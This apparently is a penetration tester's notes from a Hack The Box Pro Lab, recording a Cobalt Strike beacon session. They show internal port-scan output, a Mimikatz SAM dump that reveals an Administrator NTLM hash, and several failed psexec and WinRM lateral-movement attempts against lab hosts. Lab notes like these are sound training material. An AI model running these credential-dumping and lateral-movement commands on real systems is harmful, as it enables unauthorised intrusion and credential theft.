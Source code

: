 ```powershell
172.16.1.5:636
172.16.1.5:593

[10/06 11:41:51] [+] received output:
172.16.1.5:464
172.16.1.5:389

[10/06 11:41:57] [+] received output:
172.16.1.5:139
172.16.1.5:135
172.16.1.5:88
172.16.1.5:53

[10/06 11:42:59] [+] received output:
172.16.1.5:445 (platform: 500 version: 10.0 name: DC01 domain: CORP)
172.16.1.15:445 (platform: 500 version: 10.0 name: SQL01 domain: CORP)
172.16.1.24:445 (platform: 500 version: 10.0 name: WEB-WIN01 domain: CORP)
172.16.1.26:445 (platform: 500 version: 10.0 name: FS01 domain: CORP)
172.16.1.30:445 (platform: 500 version: 10.0 name: MS01 domain: CORP)
172.16.1.36:445 (platform: 500 version: 10.0 name: WSADM domain: CORP)

[10/06 11:43:04] [+] received output:
172.16.1.101:445 (platform: 500 version: 6.1 name: WS02 domain: CORP)
172.16.1.200:445
172.16.1.201:445
172.16.1.220:445
Scanner module is complete
```

Try Bloodhound next.


Admin NTLM from MS01 Mimikatz:
```powershell
[10/06 11:24:55] beacon> mimikatz token::elevate ; lsadump::sam
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7facdc498ed1680c4fd1448319a8c04f
```
All powerview commands getting errors.
![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231006113559.png]]
New scan above shows 5985 is open on alot of boxes, going to try to winrm jump to them
- setup SMB listener to jump with
![[Penetration Testing v2/htb_Everything/htb_pro_Labs/offshore/2. 172.16.1.30 - CORP-MS01/screenshots/Pasted image 20231006115923.png]]
jump winrm64 172.16.1.36 smb // didnt work

jump psexec64 172.16.1.36 smb  // nope didnt work

WSADM.corp.local

jump psexec64 WSADM.corp.local smb  // nope didnt work
jump winrm63 WSADM.corp.local smb 
